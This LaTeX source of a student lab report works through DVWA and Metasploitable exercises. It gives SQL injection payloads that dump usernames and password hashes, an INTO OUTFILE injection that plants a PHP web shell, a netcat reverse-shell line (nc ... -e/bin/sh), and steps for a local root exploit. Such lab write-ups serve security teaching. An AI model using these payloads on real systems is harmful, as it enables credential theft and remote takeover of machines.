\documentclass[a4paper,10pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
%opening
\title{Lab-report 6}
\author{Moritz Rupp}

\begin{document}

\maketitle

\begin{abstract}
\begin{center}
Lab 6 report

\end{center}
\tableofcontents
\end{abstract}
\newpage
\section{Exercise 6.1 - Basic SQL Injections}
The goal is to trigger a basic sql injection.\\
SQL injection are possible if database queries are constructed based on user input. If we submit the right string, our inputs can execute sql commands, which can be used to read of the database. 

We start with a simple sql-injection to extract the list of usernames and password hashes. Hence we set the the DVWA security setting to low. \\
First we try around and list database users:\\
\begin{verbatim}
 %' or 0=0 union select null, user() #

\end{verbatim}

\begin{center}
 
\includegraphics[scale=0.4]{first.png}
\end{center}
If we slighty modify this command we should also gain the password hashes.
\begin{verbatim}
%' or 0=0 union select first_name, password from users#

or

1' or  '0' = '0' union select first_name, password from users#
#
\end{verbatim}

\begin{center}
 
\includegraphics[scale=0.5]{sec.png}
\end{center}
The key here is union. It is used to combine the result-set of two or more SELECT statements. This can be used to pass our bewished statements.
\newpage
\section{Exercise 6.2 - Remote Shell SQL Injections}
Next we want to go even further and spawn a reverse shell via netcat. This can be achieved by using another sql injection to create a file within the target system. This file can then be executed to connect to our nc server.\\
The first approach was to use a sql injection that writes a php execution command into a file @/tmp. With another injection i then wanted to pass the connection to my nc server.

\begin{verbatim}
% or 0 = 0 union select 1, '<?php system($_GET['cmd']); ?>' into outfile '/tmp/exec.php'#
\end{verbatim}
This tries to use the system() function to execute commands that are being passed through ‘cmd’ HTTP request GET parameter.\\
But even after lots of reconfiguration this doesnt work, probably due to syntactical errors.
The next approach was to straight write the connection to a file and execute it via the file inclusion page.
\begin{verbatim}
%' or 0=0 union select 1, '<?php system("nc 192.168.193.128 1337 -e/bin/sh"); \
?>' into outfile '/tmp/pown.php' #
\end{verbatim}
When we check /tmp at the victim maschine,, we see the created file.\\

\includegraphics[scale=0.5]{pown.png}\\
\vspace{1mm}
After further research we realize that our sql statement was not correct since it also wrote usernames in the file.\\
After adjusting the statement we only have the php funtion with our nc connection writen in the file.
Via the File inclusion page we can now call that file to connecto to our nc server.
\begin{verbatim}
 
\end{verbatim}

\includegraphics[scale=0.5]{nc.png}
\newpage
\section{Exercise 6.3 - Remote Shell SQL Injections and Privilege Escalation}
On the just gained shell, we should escalate our priviledges to root, with the help of an exploit.\\
First we Download the exploit to our local maschine. With the help of an http server and curl we transfer it on our target. 
We then compile it on the metasploitable.
\begin{center}
gcc 8572.c -o escalate
\end{center}
Following we look for the udevd netlink
socket which is stores in proc/net/netlink.\\
- nano netlink
\begin{center}
 
\includegraphics[scale=0.5]{link.png}
\end{center}
Now we can create another payload file that connects to a netcat server we just setup.
Via the netlink pid we can execute the exploit.\\

\includegraphics[scale=0.5]{root.png}
\end{document}
